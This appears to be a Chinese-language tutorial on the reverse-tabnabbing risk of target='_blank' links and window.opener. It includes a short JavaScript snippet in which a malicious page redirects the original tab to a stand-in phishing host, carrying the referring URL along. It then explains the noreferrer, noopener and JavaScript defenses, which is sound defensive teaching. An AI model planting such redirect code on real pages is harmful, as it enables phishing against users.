 # a标签-_blank危险与opener

在网页中使用链接时，如果想要让浏览器自动在新的标签页打开指定的地址，通常的做法就是在 a 标签上添加 target等于"_blank" 属性。

然而，就是这个属性，为钓鱼攻击者带来了可乘之机。

## 起源
```
parent 与 opener

在说 opener 之前，可以先聊聊 <iframe> 中的 parent。

我们知道，在 <iframe> 中提供了一个用于父子页面交互的对象，叫做 window.parent，我们可以通过 window.parent 对象来从框架中的页面访问父级页面的 window。

opener 与 parent 一样，只不过是用于 <a target="_blank"> 在新标签页打开的页面的。通过 <a target="_blank"> 打开的页面，可以直接使用 window.opener 来访问来源页面的 window 对象。
```
## 同域与跨域

浏览器提供了完整的跨域保护，在域名相同时，parent 对象和 opener 对象实际上就直接是上一级的 window 对象；而当域名不同时，parent 和 opener 则是经过包装的一个 global对象。这个 global 对象仅提供非常有限的属性访问，并且在这仅有的几个属性中，大部分也都是不允许访问的（访问会直接抛出 DOMException）。

```
在 <iframe> 中，提供了一个 sandbox 属性用于控制框架中的页面的权限，因此即使是同域，也可以控制 <iframe> 的安全性。
```

## 利用

如果，你的网站上有一个链接，使用了 target="_blank"，那么一旦用户点击这个链接并进入一个新的标签，新标签中的页面如果存在恶意代码，就可以将你的网站直接导航到一个虚假网站。此时，如果用户回到你的标签页，看到的就是被替换过的页面了。

## 详细步骤

1. 在你的网站 https://example.com 上存在一个链接：
   ```html
   <a href="https://an.evil.site" target="_blank">进入一个“邪恶”的网站</a>
   ```
2. 用户点击了这个链接，在新的标签页打开了这个网站。这个网站可以通过 HTTP Header 中的 Referer 属性来判断用户的来源。并且，这个网站上包含着类似于这样的 JavaScript 代码：
    ```js
    const url = encodeURIComponent('{{header.referer}}');
    window.opener.location.replace('https://a.fake.site/?' + url);
    ```
3. 此时，用户在继续浏览这个新的标签页，而原来的网站所在的标签页此时已经被导航到了 https://a.fake.site/?https%3A%2F%2Fexample.com%2F。
4. 恶意网站 https://a.fake.site 根据 Query String 来伪造一个足以欺骗用户的页面，并展示出来（期间还可以做一次跳转，使得浏览器的地址栏更具有迷惑性）。
5. 用户关闭 https://an.evil.site 的标签页，回到原来的网站………………已经回不去了。

上面的攻击步骤是在跨域的情况下的，在跨域情况下，opener 对象和 parent 一样，是受到限制的，仅提供非常有限的属性访问，并且在这仅有的几个属性中，大部分也都是不允许访问的（访问会直接抛出 DOMException）。

但是与 parent 不同的是，在跨域的情况下，opener 仍然可以调用 location.replace 方法而 parent 则不可以。

如果是在同域的情况下（比如一个网站上的某一个页面被植入了恶意代码），则情况要比上面严重得多。

防御

```
<iframe> 中有 sandbox 属性，而链接，则可以使用下面的办法：
```

1. Referrer Policy 和 noreferrer

上面的攻击步骤中，用到了 HTTP Header 中的 Referer 属性，实际上可以在 HTTP 的响应头中增加 Referrer Policy 头来保证来源隐私安全。

```
Referrer Policy 需要修改后端代码来实现，而在前端，也可以使用 <a> 标签的 rel 属性来指定 rel="noreferrer" 来保证来源隐私安全。
```

```html
<a href="https://an.evil.site" target="_blank" rel="noreferrer">进入一个“邪恶”的网站</a>
```

但是要注意的是：即使限制了 referer 的传递，仍然不能阻止原标签被恶意跳转。

2. noopener
```
为了安全，现代浏览器都支持在 <a> 标签的 rel 属性中指定 rel="noopener"，这样，在打开的新标签页中，将无法再使用 opener 对象了，它为设置为了 null。
```
```html
<a href="https://an.evil.site" target="_blank" rel="noopener">进入一个“邪恶”的网站</a>
```

3. JavaScript

noopener 属性看似是解决了所有问题，但是…浏览器的兼容性问题…

![Image text](https://github.com/Javison666/jj-learning/blob/master/image/readme/1536223435639490.jpg)

可以看到，现在绝大多数浏览器都已经兼容了 rel="noopener" 属性了。但是，为了保护稍旧的“近代”浏览器或是很旧的“古代”浏览器甚至是
“远古”浏览器，只有 noopener 属性还是远远不够的。

这时，就只能请出下面这段原生 JavaScript 来帮忙了。

```js
"use strict";
function openUrl(url) {
  var newTab = window.open();
  newTab.opener = null;
  newTab.location = url;
}
```

## 推荐
```
最后，再来说说性能问题。

如果网站使用了 <a target="_blank">，那么新打开的标签页的性能将会影响到当前页面。此时如果新打开的页面中执行了一个非常庞大的 JavaScript 脚本，那么原始标签页也会受到影响，会出现卡顿的现象（当然不至于卡死）。

而如果在链接中加入了 noopener，则此时两个标签页将会互不干扰，使得原页面的性能不会受到新页面的影响。
```